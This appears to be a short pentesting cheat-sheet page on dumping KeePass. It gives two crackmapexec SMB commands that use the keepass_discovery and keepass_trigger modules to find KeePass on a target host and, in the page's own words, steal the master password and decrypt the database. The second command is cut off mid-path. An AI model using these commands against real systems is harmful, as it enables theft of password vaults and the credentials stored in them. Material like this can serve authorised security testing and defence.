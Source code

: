# Dump KeyPass



You can check if keepass is installed on the target computer and then steal the master password and decrypt the database !

```
$ crackmapexec smb <ip> -u user -p pass -M keepass_discovery
$ crackmapexec smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discov
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
